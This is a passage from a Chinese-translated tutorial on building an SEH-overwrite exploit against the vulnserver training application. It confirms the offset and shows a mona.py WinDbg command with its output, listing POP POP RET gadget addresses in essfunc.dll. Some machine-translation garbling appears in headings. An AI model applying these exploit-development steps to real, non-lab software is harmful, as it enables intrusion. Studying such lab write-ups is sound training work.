来源:[offset _ liter . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/offset_lter.py)

我们可以在 3520 找到偏移量来控制`SEH`处理器。

![](img/94c3adea593fb0ddeec49e0da9e0d35c.png)

确认偏移

现在，我们都准备好在碰撞时控制`SEH`。

## 寻找流行音乐

对于典型的`SEH`覆盖漏洞利用，我们需要找到`POP POP RET`指令小工具。我们将使用 mona.py 的`seh`命令在 vulnserver 应用程序的 dll 中搜索`POP POP RET`。首先，将`vulnserver`连接到 WinDbg 并运行以下命令:

```
**### Mona.py Finding "POP POP RET"**!py mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'** We can use '-cpb' flag to specify which characters are restricted/bad*...snip...
[+] Results : 
**0x6250160a** |   0x6250160a : pop esi # pop ebp # ret  | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250172b** |   0x6250172b : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250195e** |   0x6250195e : pop edi # pop ebp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
**0x6250120b** |   0x6250120b : pop ecx # pop ecx # ret  | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\bigb0ss\Desktop\software\vulnserver\essfunc.dll)
    Found a total of 4 pointers
```
